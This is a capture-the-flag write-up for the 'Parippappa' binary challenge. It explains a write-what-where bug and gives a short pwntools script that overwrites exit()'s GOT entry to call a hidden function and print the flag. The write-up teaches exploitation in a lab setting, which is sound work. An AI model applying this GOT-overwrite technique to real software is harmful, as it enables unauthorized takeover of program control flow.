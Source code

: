 # Parippappa

### 📍 Description
Can you make the man happy and get the flag? 

### 📄 Rules
- You cannot patch this binary. 
- The challenge must be solved by providing appropriate inputs.
- Do not modify the temp file.

## 🔑 Solution
The binary provides a trivial write-what-where so it would be a good idea to overwrite some entry in the GOT in order to get control of the program control flow.
A good candidate for the overwrite would be (as usual) the `exit()` function.
The function that (sort of) gives us the flag is `give_the_man_a_cat()` but it's never called anywhere.
By overwriting the GOT entry for `exit()` we can call the required function and get the flag.

```python
from pwn import *

context.binary = "./vuln"
p = process()
p.sendline(b"y")
p.sendline(str(context.binary.functions["give_the_man_a_cat"].address).encode("ascii"))
p.sendline(str(context.binary.got["exit"]).encode("ascii"))
p.interactive()
```

### 🚩 Flag
```plain
SPRITZ{PaRiPpaPPaA}
```
